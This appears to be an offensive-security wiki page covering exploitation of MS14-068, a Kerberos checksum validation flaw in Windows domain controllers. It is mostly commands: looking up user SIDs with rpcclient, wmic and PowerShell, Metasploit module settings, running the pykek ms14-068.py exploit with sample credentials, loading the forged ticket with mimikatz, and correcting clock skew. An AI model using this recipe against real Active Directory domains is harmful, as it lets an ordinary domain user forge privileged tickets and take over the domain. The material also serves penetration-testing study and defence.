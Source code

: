 # Kerberos Checksum Validation ( MS14-068 )

{% embed url="https://github.com/gentilkiwi/kekeo/wiki/ms14068" %}

The vulnerability patches an issue with how the Domain Controller validates group membership in Kerberos tickets (hint: the ticket is always validated by the DC if the checksum is set to certain values). Microsoft KB3011780 patches this issue.

{% hint style="info" %}
This vulnerability will impact the windows server versions up to windows server 2012 R2.
{% endhint %}

#### This exploit require to know the user SID, you can use `rpcclient` to remotely get it or `wmi` if you have an access on the machine.

## <mark style="color:red;">Finding SID</mark>

to find the SID remotely:

```
rpcclient $> lookupnames john.smith
```

convert SID to username:

```
([System.Security.Principal.SecurityIdentifier]('PUT-SID-HERE')).Translate([System.Security.Principal.NTAccount]).Value
```

convert username to SID:

```
([System.Security.Principal.NTAccount]("domain\john.smith")).Translate([System.Security.Principal.SecurityIdentifier]).Value
```

to find SID locally:

```
wmic useraccount get name,sid
Convert-NameToSid high-sec-corp.localkrbtgt (powerview)
```

## <mark style="color:red;">Generating Ticket</mark>

can use pykek or metasploit:

```
Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum

Name      Current Setting                                Required  Description
   ----      ---------------                                --------  -----------
   DOMAIN    LABDOMAIN.LOCAL                                yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  P@ssw0rd                                       yes       The Domain User password
   RHOSTS    10.10.10.10                                    yes       The target address range or CIDR identifier
   RPORT     88                                             yes       The target port
   Timeout   10                                             yes       The TCP timeout to establish connection and read data
   USER      lambda                                         yes       The Domain User
   USER_SID  S-1-5-21-297520375-2634728305-5197346142-1106  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000
```

```
git clone https://github.com/SecWiki/windows-kernel-exploits

python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
python ./ms14-068.py -u john.smith@pwn3d.local -s S-1-5-21-2923581646-3335815371-2872905324-1107 -d 192.168.115.10
python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066
-1105
```

## <mark style="color:red;">Loading the Ticket</mark>

Use `mimikatz` to load the ticket.

```
mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
```

If the clock is skewed use `clock-skew.nse` script from `nmap`

```
Linux> $ nmap -sV -sC 10.10.10.10
clock-skew: mean: -1998d09h03m04s, deviation: 4h00m00s, median: -1998d11h03m05s

Linux> sudo date -s "14 APR 2015 18:25:16" 
Windows> net time /domain /set
```

